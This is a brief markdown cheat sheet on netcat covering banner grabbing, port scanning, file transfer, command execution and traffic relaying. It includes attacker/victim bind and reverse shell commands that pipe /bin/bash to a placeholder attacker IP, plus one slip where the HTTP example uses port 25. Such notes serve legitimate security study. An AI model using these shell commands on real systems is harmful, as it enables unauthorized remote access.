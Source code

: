 * [Netcat](#netcat)

# Netcat
Refs:
* <https://www.youtube.com/watch?v=7YrYRQQLjdA>
* <https://www.poftut.com/netcat-nc-command-tutorial-examples/>
## banner grabbing
```sh
# ssh
netcat 192.251.124.3 22
# SMTP
netcat 192.251.124.3 25

# HTTP
netcat 192.251.124.3 25
GET / HTTP/1.1
```
## listener
```sh
netcat -l -p 6789
```
## transfer file
```sh
# sender
netcat <receiver_ip_addr> 6789 < send_file
# receiver
netcat -l -p 6789 > recv_file
```
## port scanning
```sh
netcat -v -w1 -z <target_ip> <port_range>
```
`-v`  : verbose

`-w1` : wait for 1 sec before timeout

`-z`  : No I/O
## executing program
- The program can be an executable file (EXE, ELF, etc) or a script (shell, ruby, python etc)
- Any I/O is redirected to the established socket
```sh
netcat -e /path/to/executable
```
## running shell
### bind shell
```sh
# attacker
netcat <victim_ip> 1234
# victim
netcat -l -p 1234 -e /bin/bash
```
### reverse shell
```sh
# attacker
netcat -l -p 1234
# victim
netcat <attacker_ip> 1234 -e /bin/bash
```
## relaying
### server client relay
```
   ------                 -------------                 ----- 
  |client|-------------->|server|client|-------------->|server|
   ------                 -------------                 ------
                             Relay                      Target
```
```sh
# on relay
mknod mypipe p
netcat -l -p 6789 < mypipe | netcat <target_ip> 80 > mypipe
```
